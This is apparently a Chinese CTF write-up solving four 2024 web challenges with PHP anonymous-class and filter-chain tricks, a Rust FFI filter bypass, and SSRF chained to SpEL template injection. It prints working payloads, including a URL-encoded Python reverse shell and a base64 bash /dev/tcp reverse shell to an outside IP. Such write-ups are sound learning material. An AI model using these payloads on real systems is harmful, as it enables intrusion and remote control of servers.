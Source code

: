 # 红明谷-2024-Web

  
  
&lt;!--more--&gt;  
## ezphp  
```php  
&lt;?php  
highlight_file(__FILE__);  
// flag.php  
if (isset($_POST[&#39;f&#39;])) {  
    echo hash_file(&#39;md5&#39;, $_POST[&#39;f&#39;]);  
}  
?&gt;  
```  
利用此篇文章的方法，读取文件  
https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle  
```php  
&lt;?php  
if (isset($_GET[&#39;ezphpPhp8&#39;])) {  
    highlight_file(__FILE__);  
} else {  
    die(&#34;No&#34;);  
}  
$a = new class {  
    function __construct()  
    {  
    }  
  
    function getflag()  
    {  
        system(&#39;cat /flag&#39;);  
    }  
};  
unset($a);  
$a = $_GET[&#39;ezphpPhp8&#39;];  
$f = new $a();  
$f-&gt;getflag();  
?&gt;  
```  
匿名类的利用  
https://hi-arkin.com/archives/php-anonymous-stdClass.html  
`/flag.php?ezphpPhp8=class%40anonymous%00/var/www/html/flag.php%3A7%240`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031633826.png)
  
## playground  
访问`/www.zip`，得到  
```log  
[2022-01-01 12:34:56]  Authentication successful - User: admin Pass: 2e525e29e465f45d8d7c56319fe73036  
```  
替换`Authorization: Basic YWRtaW46MmU1MjVlMjllNDY1ZjQ1ZDhkN2M1NjMxOWZlNzMwMzY=`  
利用`readfile`得到`disable_function`  
```ini  
eval,assert,fwrite,file_put_contents,phpinfo,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,lin,putenv,mail,chroot,chgrp,dl,readlink  
```  
`pcntl_exec`没有被过滤，利用`Python`反弹`shell`  
```php  
/?cmd=pcntl_exec(&#39;/usr/bin/python&#39;,[&#39;-c&#39;,&#39;%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%32%34%2e%32%32%30%2e%32%31%35%2e%38%22%2c%31%32%33%34%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%69%6d%70%6f%72%74%20%70%74%79%3b%20%70%74%79%2e%73%70%61%77%6e%28%22%73%68%22%29&#39;]);  
```  
但是`flag`为`admin`权限需要提权  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031615181.png)
在`config.inc.php`里面发现密码，但是并没有开启相关服务，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031327074.png)
在`/etc/passwd`中发现`admin`用户，猜测可能密码复用，利用su进行提权  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031327939.png)
## unauth  
```rust  
#[macro_use] extern crate rocket;  
  
use std::fs;  
use std::fs::File;  
use std::io::Write;  
use std::process::Command;  
use rand::Rng;  
  
#[get(&#34;/&#34;)]  
fn index() -&gt; String {  
    fs::read_to_string(&#34;main.rs&#34;).unwrap_or(String::default())  
}  
  
#[post(&#34;/rust_code&#34;, data = &#34;&lt;code&gt;&#34;)]  
fn run_rust_code(code: String) -&gt; String{  
    if code.contains(&#34;std&#34;) {  
        return &#34;Error: std is not allowed&#34;.to_string();  
    }  
    //generate a random 5 length file name  
    let file_name = rand::thread_rng()  
        .sample_iter(&amp;rand::distributions::Alphanumeric)  
        .take(5)  
        .map(char::from)  
        .collect::&lt;String&gt;();  
    if let Ok(mut file) = File::create(format!(&#34;playground/{}.rs&#34;, &amp;file_name)) {  
        file.write_all(code.as_bytes());  
    }  
    if let Ok(build_output) = Command::new(&#34;rustc&#34;)  
        .arg(format!(&#34;playground/{}.rs&#34;,&amp;file_name))  
        .arg(&#34;-C&#34;)  
        .arg(&#34;debuginfo=0&#34;)  
        .arg(&#34;-C&#34;)  
        .arg(&#34;opt-level=3&#34;)  
        .arg(&#34;-o&#34;)  
        .arg(format!(&#34;playground/{}&#34;,&amp;file_name))  
        .output() {  
        if !build_output.status.success(){  
            fs::remove_file(format!(&#34;playground/{}.rs&#34;,&amp;file_name));  
            return String::from_utf8_lossy(build_output.stderr.as_slice()).to_string();  
        }  
    }  
    fs::remove_file(format!(&#34;playground/{}.rs&#34;,&amp;file_name));  
    if let Ok(output) = Command::new(format!(&#34;playground/{}&#34;,&amp;file_name))  
        .output() {  
        if !output.status.success(){  
            fs::remove_file(format!(&#34;playground/{}&#34;,&amp;file_name));  
            return String::from_utf8_lossy(output.stderr.as_slice()).to_string();  
        } else{  
            fs::remove_file(format!(&#34;playground/{}&#34;,&amp;file_name));  
            return String::from_utf8_lossy(output.stdout.as_slice()).to_string();  
        }  
    }  
    return String::default();  
  
}  
  
#[launch]  
fn rocket() -&gt; _ {  
    let figment = rocket::Config::figment()  
        .merge((&#34;address&#34;, &#34;0.0.0.0&#34;));  
    rocket::custom(figment).mount(&#34;/&#34;, routes![index,run_rust_code])  
}  
```  
限制了`std`，利用内联写C进行绕过  
```c  
extern &#34;C&#34; {fn system(s: *const u8) -&gt; i32;}  
fn main() {  
		unsafe{system(b&#34;cat /flag&#34; as *const u8)};  
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031345685.png)
## Simp1escape  
CurlController下存在SSRF漏洞，但是限制了不能是本地IP，利用302跳转绕过  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031551190.png)
结合`AdminController`存在`Thymelaef`模版注入(只允许本地访问)  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031551557.png)
打一发模版注入漏洞  
https://boogipop.com/2024/01/29/RealWorld%20CTF%206th%20%E6%AD%A3%E8%B5%9B_%E4%BD%93%E9%AA%8C%E8%B5%9B%20%E9%83%A8%E5%88%86%20Web%20Writeup/#chatterbox%EF%BC%88solved%EF%BC%89  
`exp.php`  
```php  
&lt;?php  
header(&#34;Location:http://127.0.0.1:8080/getsites?hostname=%5B%5B%24%7BT(java.lang.Boolean).forName(%22com.fasterxml.jackson.databind.ObjectMapper%22).newInstance().readValue(%22%7B%7D%22%2CT(org.springframework.expression.spel.standard.SpelExpressionParser)).parseExpression(%22T(Runtime).getRuntime().exec(&#39;bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjQuMjIwLjIxNS44LzEyMzQgMD4mMQ%3D%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D&#39;)%22).getValue()%7D%5D%5D&#34;);  
?&gt;  
```  
`/curl?url=http://ip:80/exp.php`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031758242.png)
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%BA%A2%E6%98%8E%E8%B0%B7-2024-web/  

